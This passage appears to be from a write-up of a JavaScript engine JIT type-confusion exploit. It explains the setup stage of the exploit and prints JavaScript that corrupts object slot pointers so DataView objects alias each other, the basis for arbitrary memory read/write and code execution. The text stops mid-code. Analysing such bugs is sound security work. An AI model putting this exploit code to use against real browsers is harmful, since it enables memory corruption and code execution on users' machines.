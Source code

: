 ## Exploit

I'll divide the exploit in three parts (Setup, Arbitrary address read and write, Code Execution) and explain a bit what each stage does

## Setup

We first setup the four objects that we need `o`, `obj`, `dv1`, `dv2`. I'll use Perception Point terminology because they included a PoC exploit which can be adapted to this bug

You can diff the two scripts to get the differences

```javascript
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

dv1 = new DataView(new ArrayBuffer(0x100));
dv2 = new DataView(new ArrayBuffer(0x100));

BASE = 0x100000000;

function hex(x) {
    return "0x" + x.toString(16);
}

function opt(o, c, value) {
    o.b = 1;

    let temp = {__proto__: c};

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj); // o->auxSlots = obj (Step 1)

    /*
      chqmatteo: so we set o.c but it can be any name you want,
      it's just the third property of o
      so it will get written to o->auxSlots[2]
      similary obj.h is the 8th property of obj so we will write to obj->auxSlots[7]
      and buffer is at that offset
     */
    o.c = dv1; // obj->auxSlots = dv1 (Step 2)
    obj.h = dv2; // dv1->buffer = dv2 (Step 3)

```
